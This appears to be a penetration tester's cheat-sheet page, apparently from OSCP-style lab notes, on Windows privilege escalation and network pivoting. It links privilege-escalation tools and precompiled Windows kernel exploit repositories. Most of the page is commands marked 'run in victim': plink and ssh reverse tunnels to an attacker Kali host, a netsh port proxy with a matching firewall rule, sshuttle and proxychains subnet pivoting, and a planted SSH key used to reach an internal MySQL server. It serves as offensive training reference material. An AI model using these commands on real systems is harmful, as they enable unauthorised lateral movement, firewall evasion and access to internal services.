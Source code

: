 #### Windows privesc/enum tools

* [windows-exploit-suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester/blob/master/windows-exploit-suggester.py)
* [windows-privesc-check](https://github.com/pentestmonkey/windows-privesc-check)
* [PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1)

#### Windows precompiled exploits

* [WindowsExploits](https://github.com/abatchy17/WindowsExploits)
* [WindowsExploits](https://github.com/nomi-sec/PoC-in-GitHub)
* [WindowsExploits](https://github.com/SecWiki/windows-kernel-exploits)
* [WindowsExploits](https://github.com/Ascotbe/Kernelhub)

#### Port Forwarding

### Windows

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">Run in victim: cmd.exe /c echo y | plink.exe -ssh -l kali -pw P@ssw0rd1234 -R 10.10.16.155:1445:127.0.0.1:445 10.10.16.155 #Opens port 1445 on kali to 445 on victim
plink -l LOCALUSER -pw LOCALPASSWORD LOCALIP -R 5985:127.0.0.1:5985 -P 221
<strong>plink.exe -l kali -pw P@$$word -R 8080:127.0.0.1:445 10.10.16.155
</strong>ssh -l kali -pw P@$$word -R 445:127.0.0.1:445 10.10.16.155 #port forward
#NETSH PORT FWD IP Helper Svc and IPv6 Support must be enabled (default on Windows) 
netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110
#Opens 4455 on Win client to fwd 445 to dest client
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow
#ALlow inbound connections on 4455 #On kali make sure
'/etc/samba/smb.conf' is set to 'min protocol = SMB2' #before connecting
</code></pre>

### Linux

{% code overflow="wrap" %}
```bash
#Socks Proxy
sudo sshuttle -r sean@10.11.1.251 10.1.1.0/24 -v ## Requires PW of user; Socks Proxy to entire subnetwork from kali
ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i id_rsa kali@192.168.119.137 #Run on victim
proxychains nmap --top-ports=20 -sT -Pn 10.1.1.68 #Make sure "sT" & "Pn" is configured when ran from kali & proxy port is in /etc/proxychains.conf file
#Remote Port Forward:
ssh-keygen # From victim machine; create keys to allow ssh connection
from="10.11.1.250",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa ssh-rsa <id_rsa.pub result> #Placed in kali known_hosts/authorized_keys file
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/thunda/id_rsa kali@192.168.119.209 #CMD ran in victim for port fwd
mysql --host=127.0.0.1 --port=13306 --user=wp -p #Connection using port forward
```
{% endcode %}
